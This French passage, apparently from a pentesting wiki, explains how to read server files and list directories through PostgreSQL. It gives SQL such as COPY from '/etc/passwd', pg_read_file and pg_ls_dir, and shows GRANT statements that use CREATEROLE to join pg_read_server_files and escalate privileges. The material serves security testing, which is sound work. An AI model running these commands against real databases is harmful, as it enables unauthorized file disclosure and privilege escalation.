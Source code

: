 ### Lire des répertoires et des fichiers

À partir de ce [**commit** ](https://github.com/postgres/postgres/commit/0fdc8495bff02684142a44ab3bc5b18a8ca1863a), les membres du groupe défini **`DEFAULT_ROLE_READ_SERVER_FILES`** (appelé **`pg_read_server_files`**) et les **super utilisateurs** peuvent utiliser la méthode **`COPY`** sur n'importe quel chemin (consultez `convert_and_check_filename` dans `genfile.c`) :
```sql
# Read file
CREATE TABLE demo(t text);
COPY demo from '/etc/passwd';
SELECT * FROM demo;
```
> [!WARNING]
> N'oubliez pas que si vous n'êtes pas super utilisateur mais que vous avez les permissions **CREATEROLE**, vous pouvez **vous rendre membre de ce groupe :**
>
> ```sql
> GRANT pg_read_server_files TO username;
> ```
>
> [**Plus d'infos.**](pentesting-postgresql.md#privilege-escalation-with-createrole)

Il existe **d'autres fonctions postgres** qui peuvent être utilisées pour **lire un fichier ou lister un répertoire**. Seuls les **super utilisateurs** et **les utilisateurs avec des permissions explicites** peuvent les utiliser :
```sql
# Before executing these function go to the postgres DB (not in the template1)
\c postgres
## If you don't do this, you might get "permission denied" error even if you have permission

select * from pg_ls_dir('/tmp');
select * from pg_read_file('/etc/passwd', 0, 1000000);
select * from pg_read_binary_file('/etc/passwd');

# Check who has permissions
\df+ pg_ls_dir
\df+ pg_read_file
\df+ pg_read_binary_file

# Try to grant permissions
GRANT EXECUTE ON function pg_catalog.pg_ls_dir(text) TO username;
# By default you can only access files in the datadirectory
SHOW data_directory;
# But if you are a member of the group pg_read_server_files
# You can access any file, anywhere
GRANT pg_read_server_files TO username;
# Check CREATEROLE privilege escalation
```
Vous pouvez trouver **plus de fonctions** dans [https://www.postgresql.org/docs/current/functions-admin.html](https://www.postgresql.org/docs/current/functions-admin.html)

### Écriture de Fichiers Simple
